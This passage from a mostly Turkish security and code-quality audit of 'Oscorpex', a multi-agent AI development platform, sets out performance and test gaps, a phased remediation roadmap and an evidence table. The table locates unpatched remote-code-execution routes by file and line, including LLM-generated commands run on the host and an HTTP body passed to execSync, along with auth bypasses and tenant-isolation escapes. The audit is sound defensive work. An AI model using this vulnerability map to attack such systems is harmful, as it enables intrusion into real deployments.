| CRUD API (12 endpoint) | İyi |
| 4-tier resolution | İyi |
| Token budget degradation | İyi |
| Prompt injection taraması | **Eksik** — skill.contentMd taranmıyor |
| Cache | **Eksik** — her task dispatch'te 4 DB turu |
| Versioning | Eksik |

### Önerilen Yeni Modüller

| Modül | Amaç | Mevcut Kod | Öncelik | Ne Zaman |
|-------|-------|-----------|---------|---------|
| `@oscorpex/tool-policy` | Pre-execution komut engelleme | command-policy.ts (post-audit) | **P0** | Şimdi |
| `@oscorpex/checkpoint` | Geri alınabilir değişiklikler | replay-store.ts (kısmi) | **P0** | Şimdi |
| `@oscorpex/secret-guard` | Prompt/memory'de secret filtreleme | learning-governance.ts (regex) | **P0** | Şimdi |
| `@oscorpex/skill-registry` | First-class skill yönetimi | skill-resolver.ts + DB | P1 | 2-4 hafta |
| `@oscorpex/memory-curator` | Decay, pruning, quality scoring | memory-manager.ts | P2 | 1-2 ay |
| `@oscorpex/evaluation-loop` | Run kalite değerlendirme | output-verifier.ts | P2 | 1-2 ay |

---

## 13. Frontend Console Findings

### FE-01: alert() Kullanımı — 14 Adet, 5 Dosya

- **Severity:** HIGH
- **File(s):** TaskDetailModal, BacklogBoard, SprintBoard, SkillsPage, ProvidersPage, CreateProjectModal
- **Recommended fix:** `ApiErrorToast` bileşenine geç.

### FE-02: focus:outline-none — 153 Kullanım, 49 Dosya

- **Severity:** HIGH — WCAG 2.4.7 ihlali
- **Recommended fix:** `focus-visible:ring-2 focus-visible:ring-[#22c55e]` kullan.

### FE-03: TypeScript strict Mode Eksik

- **Severity:** HIGH
- **File(s):** `apps/console/tsconfig.app.json`
- **Recommended fix:** `"strict": true` ekle, aşamalı temizle.

### FE-04: CreateProjectModal.tsx — 1243 Satır God Component

- **Severity:** HIGH
- **Recommended fix:** 7-dosyalı `create-project/` dizinine böl.

### FE-05: Fetch'lerde AbortController Yok

- **Severity:** HIGH
- **Impact:** Memory leak + stale state.

### Erişilebilirlik Özeti

| Sorun | WCAG | Dosya Sayısı |
|-------|------|-------------|
| `focus:outline-none` | 2.4.7 | 49 |
| `aria-label` eksik icon butonlar | 4.1.2 | 20+ |
| Form label ilişkilendirme yok | 1.3.1, 3.3.2 | 10+ |
| `alert()` diyalogları | 4.1.3 | 5 |

### Frontend Refactor Top 10

1. `alert()` → toast bileşeni
2. `focus:outline-none` → `focus-visible:ring`
3. `tsconfig.app.json` strict mode
4. CreateProjectModal decompose
5. AbortController tüm fetch'lerde
6. TracesPage/FeedbacksPage/AlertsPage/MemoryPage decompose
7. Paylaşılan `src/lib/format.ts` utility
8. `key={index}` → stabil key
9. Kritik sayfalara test
10. `useTransition` search/filter'larda

---

## 14. Test Coverage and Code Quality Findings

### QA-001: Execution Pipeline — 10 Dosya, 0 Test

- **Severity:** HIGH
- **File(s):** `execution/task-executor.ts` (569), `dispatch-coordinator.ts` (208), `provider-execution-service.ts` (345), `provider-task-runner.ts`, `task-start-service.ts`, `execution-recovery.ts` (227), `execution-watchdog.ts`, `task-output-handler.ts` (164), `prompt-assembler.ts`, `agent-resolver.ts`
- **Impact:** Sistemin kalbi — claim, dispatch, retry, fallback — tamamen korumasız.

### QA-004: event-bus.ts — 0 Test

- **Severity:** HIGH
- **Impact:** Merkezi pub/sub altyapısı dedup, PG LISTEN, handler izolasyonu test edilmiyor.

### QA-007: Coverage Threshold Tanımsız

- **Severity:** HIGH
- **File(s):** `apps/kernel/vitest.config.ts`
- **Recommended fix:** `thresholds: { lines: 60, functions: 60, branches: 55 }` ekle.

### QA-014: CI'da PostgreSQL Service Yok

- **Severity:** MEDIUM
- **File(s):** `.github/workflows/ci.yml`
- **Impact:** DB-backed testler CI'da çalışmıyor.

### Top 20 Missing Tests

| Sıra | Dosya | LOC | Risk |
|------|-------|-----|------|
| 1 | execution/task-executor.ts | 569 | CRITICAL |
| 2 | execution/provider-execution-service.ts | 345 | CRITICAL |
| 3 | execution/dispatch-coordinator.ts | 208 | CRITICAL |
| 4 | event-bus.ts | 287 | CRITICAL |
| 5 | sandbox-manager.ts (gerçek path) | 601 | CRITICAL |
| 6 | task/task-lifecycle-service.ts | 471 | HIGH |
| 7 | task/review-loop-service.ts | 373 | HIGH |
| 8 | auth/auth-middleware.ts | 118 | HIGH |
| 9 | pipeline/stage-advance-service.ts | 97 | HIGH |
| 10 | webhook-sender.ts | 468 | HIGH |
| 11 | execution/execution-recovery.ts | 227 | HIGH |
| 12 | pipeline/pipeline-completion-service.ts | ~100 | HIGH |
| 13 | skill-resolver.ts | 200 | MEDIUM |
| 14 | auth/access-guard.ts | 92 | MEDIUM |
| 15 | task/task-completion-effects.ts | 113 | MEDIUM |
| 16 | cross-project-learning.ts | 319 | MEDIUM |
| 17 | proposal-processor.ts | — | MEDIUM |
| 18 | execution/prompt-assembler.ts | — | MEDIUM |
| 19 | pipeline/vcs-phase-hooks.ts | — | MEDIUM |
| 20 | skill-auto-detector.ts | 128 | MEDIUM |

### Top 20 Refactor Targets

| Sıra | Dosya | LOC | Sorun |
|------|-------|-----|-------|
| 1 | CreateProjectModal.tsx | 1243 | God component |
| 2 | TriggersPage.tsx (legacy) | 1165 | Decompose edilmiş ama silinmemiş |
| 3 | RagPage.tsx (legacy) | 1109 | Aynı |
| 4 | TracesPage.tsx | 1107 | Henüz decompose edilmemiş |
| 5 | FeedbacksPage.tsx | 1096 | Aynı |
| 6 | PromptsPage.tsx (legacy) | 1025 | Decompose edilmiş ama silinmemiş |
| 7 | AlertsPage.tsx | 924 | Henüz decompose edilmemiş |
| 8 | MemoryPage.tsx | 890 | Aynı |
| 9 | pm-agent-tools.ts | 840 | Plan build + zod + DB karışık |
| 10 | legacy/cli-runtime.ts | 764 | Legacy, dokunulmamalı |
| 11 | release-decision-service.ts | 660 | 660 LOC tek sınıf |
| 12 | routes/team-routes.ts | 642 | Route içinde business logic |
| 13 | docs-generator.ts | 635 | I/O + template + markdown |
| 14 | container-pool.ts | 626 | Pool + health + lifecycle |
| 15 | graph-coordinator.ts | 601 | Büyük ama iyi test edilmiş |
| 16 | db/analytics-repo.ts | 594 | 594 LOC raw SQL |
| 17 | adaptive-replanner.ts | 585 | Replan + injection + event |
| 18 | claude-probe.ts | 571 | Tek probe dosyası |
| 19 | agent-runtime.ts | 570 | Virtual process + output + lifecycle |
| 20 | InsightDashboard.tsx | 570 | Inline chart + as any |

### Code Quality Signals

| Sinyal | Sayı | Not |
|--------|------|-----|
| `as any` (kernel src) | ~15-19 | İyi — önceki 85'ten düşürülmüş |
| `as any` (console src) | ~35 | Orta |
| Silent catch blocks | 1 dosya | İyi — çoğu temizlenmiş |
| TODO/FIXME | Az | — |
| 6 paket 0 test | 6,245 LOC | core, control-plane, event-schema, memory-kit, observability-sdk, verification-kit |

---

## 15. Performance Findings

### PERF-001: createTask 3 Seri DB Turu

- **Severity:** HIGH
- **File(s):** `apps/kernel/src/studio/db/task-repo.ts:37-54`
- **Hot path:** Evet — PM plan oluşturmada 10-50 task × 3 DB sorgu = 30-150 roundtrip
- **Recommended fix:** Tek JOIN sorgusu + batch-aware `createTaskBatch(tasks[])`.

### PERF-002: Analytics Triple-OR JOIN — N² Risk

- **Severity:** HIGH
- **File(s):** `apps/kernel/src/studio/db/analytics-repo.ts:253-264`
- **Evidence:** `pa.id = t.assigned_agent OR pa.source_agent_id OR pa.role = t.assigned_agent` — index kullanımını engelliyor.
- **Recommended fix:** `assigned_agent_id` direkt JOIN + `NOT EXISTS` yerine `NOT IN`.

### PERF-006: getLatestPlan 3 DB Turu

- **Severity:** MEDIUM
- **File(s):** `apps/kernel/src/studio/db/project-repo.ts:147-167`
- **Evidence:** `getLatestPlan()` → `getPlan()` → `listPhases()` = 3 ayrı sorgu.
- **Recommended fix:** Tek JOIN sorgusu.

### PERF-007: skill-resolver 4 Seri DB Sorgu

- **Severity:** MEDIUM
- **File(s):** `apps/kernel/src/studio/skill-resolver.ts:75-105`
- **Recommended fix:** `Promise.all` + cache.

### PERF-010: statement_timeout Yok

- **Severity:** LOW
- **File(s):** `apps/kernel/src/studio/pg.ts`
- **Recommended fix:** `SET statement_timeout = '30s'` pool connect event'inde.

### Top 10 Performance Optimizations

| # | Bulgu | Beklenen Kazanç |
|---|-------|-----------------|
| 1 | createTask 3 tur → 1 JOIN | Plan oluşturma ~60-70% hızlanır |
| 2 | getLatestPlan 3 tur → 1 | Execution döngüsü başına 2 tur kazanç |
| 3 | Analytics OR JOIN → direct JOIN | 5-10x sorgu hızı |
| 4 | skill-resolver paralel + cache | Her task başına ~10ms |
| 5 | purgeExpired() zamanla | Uzun vadeli bellek istikrarı |
| 6 | _recentlyEmitted → LRU | GC pause azalması |
| 7 | listTokenUsage limit → 100 | Payload %90 küçülür |
| 8 | statement_timeout ekle | Runaway query koruması |
| 9 | autoAssignDetectedSkills bulk | Proje oluşturma ~0.5s |
| 10 | AdaptiveConcurrency.projectCap → env | Hardcode kaldırılır |

---

## 16. Integration Opportunities

### Oscorpex vs Referans Sistemler

| Sistem | Oscorpex'in Güçlü Yanı | Oscorpex'in Zayıf Yanı |
|--------|------------------------|------------------------|
| Claude Code | Multi-provider fallback, DAG scheduling | Araç kısıtlama sadece Claude'da |
| OpenAI Codex CLI | Tam pipeline orchestration | Codex adaptör sınırlı |
| Cursor Agent | Bağımsız çalışma | Cursor adaptör stub |
| Hermes Agent | Review loops, adaptive replanning | Checkpoint/rollback eksik |
| OpenHands | Multi-agent Scrum model | Container sandboxing zayıf |
| Goose | Skill sistemi, learning patterns | Pre-execution enforcement yok |
| LangGraph | Event-driven, state machine | Event tipleri kısmen `as any` |

### Entegrasyon Önceliklendirmesi

**Önce yapılmalı (Must-have hardening):**
- Tool policy → pre-execution enforcement
- Verification hard gate
- Tenant izolasyonu tamamen sabitlenmeli
- Checkpoint/rollback

**Yararlı mimari iyileştirme:**
- MCP bridge (strict allowlist ile)
- Profile sistemi (agent capability profiling)
- Scheduler paketi (ayrı zamanlama motoru)

**Güzel ama şimdi değil:**
- Chat channel expansion
- Marketplace skill sharing
- Self-improvement automation

**Çok erken / Kaçın:**
- LangGraph entegrasyonu (core stabilize değilken)
- Hermes agent bridge (güvenlik gerekmeden)

---

## 17. Recommended New Modules

### P0 — Hemen Gerekli

| Modül | Amaç | Mevcut Kod | Tahmini Efor |
|-------|-------|-----------|-------------|
| `@oscorpex/tool-policy` | Pre-execution komut engelleme | command-policy.ts (sadece audit) | 1-2 hafta |
| `@oscorpex/checkpoint` | Geri alınabilir workspace değişiklikleri | replay-store.ts (kısmi) | 2-3 hafta |
| `@oscorpex/secret-guard` | Memory/prompt'ta secret filtreleme | learning-governance.ts | 1 hafta |
| audit-log hardening | Tenant-scoped, immutable | audit-repo.ts | 1 hafta |
| verification-kit hard gate | Advisory → mandatory | execution-gates.ts | 3-5 gün |

### P1 — Kısa Vadeli

| Modül | Amaç | Mevcut Kod | Tahmini Efor |
|-------|-------|-----------|-------------|
| `@oscorpex/skill-registry` | First-class skill lifecycle | skill-resolver.ts + DB | 2 hafta |
| `@oscorpex/profile` | Agent capability profiling | agent-constraints.ts | 2 hafta |
| memory redaction/promotion | Safe cross-project learning | cross-project-learning.ts | 1-2 hafta |
| mcp-bridge (strict allowlist) | External tool integration | plugin-registry.ts | 2-3 hafta |

### P2 — Orta Vadeli

| Modül | Tahmini Efor |
|-------|-------------|
| `@oscorpex/scheduler` (ayrı paket) | 2-3 hafta |
| `@oscorpex/gateway` (API gateway) | 3-4 hafta |
| `@oscorpex/evaluation-loop` | 2-3 hafta |
| `@oscorpex/memory-curator` | 2 hafta |

---

## 18. Prioritized Roadmap

### Phase 0 — Validation Sprint (1 hafta)

**Goal:** Mevcut durumu doğrula, en tehlikeli yolları kapat.

**Tasks:**
1. Terminal exec route'u `NODE_ENV=production`'da devre dışı bırak
2. `extractCliCommands` çalışmasını sadece container pool'da yap (host'ta değil)
3. `FORCE ROW LEVEL SECURITY` tüm RLS tablolarına ekle
4. RLS `tenant_id IS NULL` escape'ini kapat
5. Auth'u varsayılan olarak zorunlu yap, `OSCORPEX_DEV_NO_AUTH=true` flag ekle
6. JWT secret'ı auto-generate et (hardcoded fallback kaldır)

**Exit criteria:** 3 CRITICAL güvenlik + 4 CRITICAL DB bulgusu kapatılmış.

### Phase 1 — Critical Security and Data Isolation (2 hafta)

**Goal:** Tüm HIGH güvenlik ve tenant izolasyonu sorunlarını kapat.

**Tasks:**
1. Container configureContainer heredoc → stdin pipe
2. Docker socket → DinD veya socket proxy
3. App-runner env sanitization (OSCORPEX_*, DATABASE_URL strip)
4. Webhook sender → `resolveAndValidateUrl` async DNS çağrısı
5. Mass assignment → Zod schema validation tüm mutation endpoint'lerde
6. `listProjects()` tenant filtresi ekle
7. Agent sessions, episodes, proposals → tenant_id ekle + RLS
8. Rate limiting genişlet (global default + terminal exec)
9. `REAL` → `NUMERIC(12,6)` para değerleri
10. db-provisioner `execSync` → `execFileSync`

**Regression tests:** Path traversal, SSRF, shell injection, tenant isolation, mass assignment.

### Phase 2 — Execution Reliability and Transactions (2 hafta)

**Goal:** Çalışma zamanı güvenilirliğini sağlamlaştır.

**Tasks:**
1. Event bus handler hatalarına loglama ekle
2. CLI process SIGKILL escalation
3. Görev durum geçişlerini atomikleştir
4. Dead-letter queue + escalation
5. insertNode TOCTOU → döngü kontrolünü önce yap
6. Split completion listener TTL temizleme
7. Manuel BEGIN/COMMIT → `withTransaction()`
8. Verification hard gate (lenient modda bile files_exist zorunlu)
9. Command policy → pre-execution enforcement (tool-policy modülü)

### Phase 3 — Core Test Coverage (3 hafta)

**Goal:** Test kapsamını %34 → %60 çıkar.

**Tasks:**
1. `task-executor.test.ts` — claim, retry, timeout
2. `dispatch-coordinator.test.ts` — scheduling, watchdog
3. `provider-execution-service.test.ts` — fallback zinciri
4. `event-bus.test.ts` — dedup, handler izolasyonu
5. `sandbox-manager.test.ts` — gerçek path traversal senaryoları
6. `stage-advance-service.test.ts` — boundary tests
7. `auth-middleware.test.ts` — JWT doğrulama yolları
8. `webhook-sender.test.ts` — SSRF regresyon
9. `skill-resolver.test.ts` — 4-tier priority + token budget
10. CI'ya PostgreSQL service + coverage threshold ekle

### Phase 4 — Verification Hard Gate (1 hafta)

**Goal:** Verification'ı advisory'den mandatory'ye çevir.

**Tasks:**
1. `shouldBlockCompletion` zorunlu kıl
2. Skill contentMd'ye `detectPromptInjection` ekle
3. Secret guard: memory fact ve context snapshot'ta PII/secret tarama
4. Cross-project learning allowlist anonimleştirme
5. Memory facts pruning cron (confidence < 0.3, 30+ gün eski)

### Phase 5 — Integration Modules (3-4 hafta)

**Goal:** P1 modüllerini implement et.

**Tasks:**
1. `@oscorpex/tool-policy` — pre-execution komut interception
2. `@oscorpex/checkpoint` — workspace snapshot/rollback
3. `@oscorpex/secret-guard` — prompt/memory redaction
4. `@oscorpex/skill-registry` — versioning, caching, marketplace hazırlığı

### Phase 6 — Frontend Modernization (2-3 hafta)

**Goal:** Erişilebilirlik, performans ve bakım kalitesi.

**Tasks:**
1. `alert()` → toast bileşeni (14 kullanım)
2. `focus:outline-none` → `focus-visible:ring` (153 kullanım)
3. `tsconfig.app.json` strict mode
4. CreateProjectModal 7 dosyaya decompose
5. TracesPage/FeedbacksPage/AlertsPage/MemoryPage decompose
6. AbortController tüm fetch'lerde
7. Paylaşılan format utilities
8. `key={index}` → stabil key
9. Route-level error boundaries
10. `useTransition` search/filter

### Dependency Order

```
Phase 0 (güvenlik acil) → Phase 1 (güvenlik + izolasyon)
                        → Phase 2 (güvenilirlik) → Phase 4 (verification)
                                                  → Phase 5 (modüller)
Phase 3 (testler) — Phase 0-2 ile paralel çalışabilir
Phase 6 (frontend) — herhangi bir zamanda paralel çalışabilir
```

### What Can Run in Parallel
- Phase 3 (testler) — Phase 0/1/2 ile paralel
- Phase 6 (frontend) — tamamen bağımsız

### What Must Not Run in Parallel
- Phase 4 Phase 2'den sonra (verification hard gate, tool-policy gerektirir)
- Phase 5 Phase 1+2'den sonra (modüller güvenli temele ihtiyaç duyar)

### Risk Reduction Matrix

| Faz | CRITICAL Kapatılan | HIGH Kapatılan | Toplam Risk Azalması |
|-----|-------------------|---------------|---------------------|
| Phase 0 | 7 (3 SEC + 4 DB) | 0 | %45 |
| Phase 1 | 0 | 10 | %25 |
| Phase 2 | 0 | 3 | %10 |
| Phase 3 | 0 | 7 (test gaps) | %10 |
| Phase 4 | 0 | 1 | %5 |
| Phase 5 | 0 | 0 | %3 |
| Phase 6 | 0 | 5 (FE) | %2 |

---

## 19. Quick Wins

| # | Quick Win | Alan | Efor | Risk Azalması | Dosyalar | Doğrulama |
|---|-----------|------|------|--------------|---------|-----------|
| 1 | Event bus handler catch → log.warn | Runtime | 30 dk | Orta | event-bus.ts:112-115 | Handler throw → log görünür |
| 2 | `FORCE ROW LEVEL SECURITY` ekle | DB | 1 saat | CRITICAL | init.sql | Tablo sahibi ile tenant dışı sorgu → 0 satır |
| 3 | Terminal route'u prod'da devre dışı bırak | Security | 30 dk | CRITICAL | terminal-routes.ts | `NODE_ENV=production` → 404 |
| 4 | JWT secret auto-generate | Security | 1 saat | HIGH | jwt.ts | Varsayılan başlatma → random secret |
| 5 | Coverage threshold ekle | Testing | 15 dk | Orta | vitest.config.ts | CI'da coverage drop → fail |
| 6 | `focus:outline-none` → `focus-visible:ring` | Frontend | 2 saat | Orta (a11y) | 49 dosya | Keyboard nav → focus görünür |
| 7 | `REAL` → `NUMERIC(12,6)` migration | DB | 1 saat | CRITICAL | init.sql | SUM(cost_usd) doğruluk testi |
| 8 | `resolveAndValidateUrl` webhook send'de çağır | Security | 30 dk | HIGH | webhook-sender.ts | Private IP → blok |
| 9 | CI'ya PostgreSQL service ekle | Testing | 30 dk | Orta | ci.yml | DB-backed testler CI'da çalışır |
| 10 | `alert()` → toast (14 kullanım) | Frontend | 2 saat | Düşük (UX) | 5 dosya | alert() = 0 kullanım |
| 11 | RATE_LIMIT_PATTERNS dedup | Quality | 15 dk | Düşük | task-executor.ts, provider-execution-service.ts | Tek tanım |
| 12 | notification-service.ts tenantId lookup | DB | 30 dk | Orta | notification-service.ts | tenantId != null |
| 13 | `purgeExpired()` boot'a zamanla | Performance | 15 dk | Düşük | boot.ts | setInterval aktif |
| 14 | `statement_timeout = 30s` DB pool | Performance | 15 dk | Düşük | pg.ts | Runaway query → timeout |
| 15 | App-runner env sanitization | Security | 1 saat | HIGH | starter.ts | DATABASE_URL child process'te yok |

---

## 20. Open Questions

1. **Hedef deployment modeli nedir?** Tek kullanıcılı yerel sistem mi, çok kiracılı SaaS mi?
2. **Provider credential'ları nasıl yönetilecek?** Paylaşımlı, kullanıcı başına, proje başına, tenant başına?
3. **Docker socket gerçekten gerekli mi?** DinD veya Kata Containers alternatif olabilir mi?
4. **Verification mandatory mı yoksa advisory mi kalacak?** Şu an advisory — bu kasıtlı mı?
5. **Agent-generated komutlar otomatik çalıştırılabilir mi?** Mevcut command-policy sadece audit yapıyor.
6. **MCP varsayılan olarak aktif mi planlanıyor?** Plugin registry mevcut ama bridge placeholder.
7. **Rollback modeli nedir?** Başarısız otonom değişiklikten sonra geri alma nasıl?
8. **Audit retention politikası?** audit_events tablosu için TTL/purge var mı?
9. **Secret'lar memory storage'a yazılmadan önce redact ediliyor mu?** Şu an: hayır.
10. **Legacy projeler (tenant_id NULL) ne olacak?** Backfill mi, silme mi, read-only mi?
11. **Container pool Docker image'ları nasıl üretilecek?** Şu an pool disabled.
12. **Cross-project learning multi-tenant'ta güvenli mi?** Anonimleştirme yetersiz.

---

## 21. Appendix: Evidence Table

| Finding ID | Dosya | Satır | Kanıt Özeti | Güven |
|-----------|-------|-------|------------|-------|
| SEC-001 | terminal-routes.ts | 67 | execSync(command) — HTTP body'den | %100 |
| SEC-002 | route-permissions.ts | — | "terminal" string yok | %100 |
| SEC-003 | task-runners.ts | 68,159 | extractCliCommands → execSync | %100 |
| SEC-004 | container-pool.ts | 382 | sh -c heredoc interpolation | %100 |
| SEC-005 | docker-compose.yml | 50 | Docker socket mount | %100 |
| SEC-006 | auth-middleware.ts | 108 | authType="none" bypass | %100 |
| SEC-007 | jwt.ts | 9-15 | Hardcoded fallback secret | %100 |
| SEC-008 | db-provisioner.ts | 111 | execSync template literal | %100 |
| SEC-009 | starter.ts | 195 | process.env spread to child | %100 |
| SEC-010 | webhook-sender.ts | 325 | Sync URL check, no DNS | %100 |
| DB-001 | init.sql | 1379-1446 | tenant_id IS NULL OR ... | %100 |
| DB-002 | project-repo.ts | 49 | SELECT * FROM projects (no WHERE) | %100 |
| DB-003 | init.sql | — | cost_usd REAL | %100 |
| DB-004 | init.sql | — | ENABLE RLS without FORCE | %100 |
| ARCH-01 | event-bus.ts | 112-115 | catch { /* ignore */ } | %100 |
| ARCH-03 | task-executor.ts | 157 | No SIGKILL escalation | %90 |
| ARCH-10 | graph-coordinator.ts | 43-76 | Create then cycle check | %100 |
| VER-001 | execution-gates.ts | 88-99 | lenient bypass files_exist | %100 |
| MEM-001 | memory-repo.ts | 116-127 | No tenant_id filter | %100 |
| PERF-001 | task-repo.ts | 37-54 | 3 serial DB round-trips | %100 |
| PERF-002 | analytics-repo.ts | 253 | Triple-OR JOIN | %100 |
| QA-001 | execution/ | — | 10 files, 0 tests | %100 |
| FE-02 | 49 dosya | — | focus:outline-none ×153 | %100 |
| FE-04 | CreateProjectModal.tsx | — | 1243 LOC tek dosya | %100 |

---

## Final Recommendation

### 1. Yeni entegrasyon eklemeden önce ne düzeltilmeli?
- 3 CRITICAL RCE vektörü (terminal, LLM-to-shell, container injection)
- 4 CRITICAL DB açığı (RLS NULL escape, FORCE RLS, tenant filter, float money)
- Auth varsayılan zorunlu
- Verification hard gate
- Execution pipeline birim testleri

### 2. İlk ne entegre edilmeli?
- `@oscorpex/tool-policy` — pre-execution enforcement (en acil)
- `@oscorpex/checkpoint` — geri alınabilir değişiklikler
- `@oscorpex/secret-guard` — prompt/memory redaction

### 3. Ne ertelenmeli?
- Chat channel expansion
- Marketplace skill sharing
- Self-improvement automation
- LangGraph/Hermes bridge

### 4. Ne kaldırılmalı veya deprecated yapılmalı?
- `apps/kernel-src/` — legacy artifact, zaten dokunulmuyor
- Legacy monolitik sayfalar (TriggersPage.tsx, RagPage.tsx, PromptsPage.tsx) — decompose edilmiş versiyonlar var
- `memory-bridge.ts` — tamamen no-op, ya implement et ya sil

### 5. Oscorpex'i production-grade yapan ne?
1. Tüm CRITICAL güvenlik ve DB bulguları kapatılmış
2. Execution pipeline %80 test kapsamı
3. Verification mandatory gate
4. Pre-execution tool policy enforcement
5. Checkpoint/rollback mekanizması
6. Container sandboxing (DinD, per-project volumes)
7. Tenant izolasyonu %100 (tüm tablolarda RLS + FORCE)
8. Coverage threshold CI gate (%60+)
9. Rate limiting tüm endpoint'lerde
10. Structured logging + alert mekanizması

### 6. Oscorpex'i rakiplerinden ne ayırır?
1. **Multi-provider fallback zinciri** — Claude/Codex/Cursor/Gemini/Ollama arasında otomatik geçiş
2. **12-agent Scrum model** — tek agent değil, tam takım simülasyonu
3. **DAG pipeline + adaptive replanning** — statik plan değil, dinamik uyarlama
4. **Review loops** — agent çıktıları incelenir, revize edilir
5. **Cost-aware model routing** — görev karmaşıklığına göre model seçimi
6. **Skills sistemi** — öğrenilmiş yeteneklerin yeniden kullanımı
7. **Learning governance** — prompt injection tespiti, pattern promosyonu

### 7. Top 10 Sonraki Eylemler
1. **Terminal exec route'u üretimde kaldır** — SEC-001/002 (30 dk)
2. **LLM komut çalıştırmayı container'a taşı** — SEC-003 (1 gün)
3. **`FORCE ROW LEVEL SECURITY` ekle** — DB-004 (1 saat)
4. **RLS NULL escape kapat** — DB-001 (2 saat)
5. **Auth varsayılan zorunlu yap** — SEC-006 (2 saat)
6. **`REAL` → `NUMERIC(12,6)`** — DB-003 (1 saat)
7. **JWT secret auto-generate** — SEC-007 (1 saat)
8. **Execution pipeline testleri yaz** — QA-001 (1 hafta)
9. **Coverage threshold ekle** — QA-007 (15 dk)
10. **Event bus handler loglama** — ARCH-01 (30 dk)

---

*Bu rapor, 6 paralel uzman ajanın (güvenlik denetçisi, mimari denetçi, PostgreSQL uzmanı, React uzmanı, QA uzmanı, performans mühendisi) bulgularının sentezlenmesiyle oluşturulmuştur. Toplam ~300 dosya incelenmiş, 100+ bulgu raporlanmıştır.*
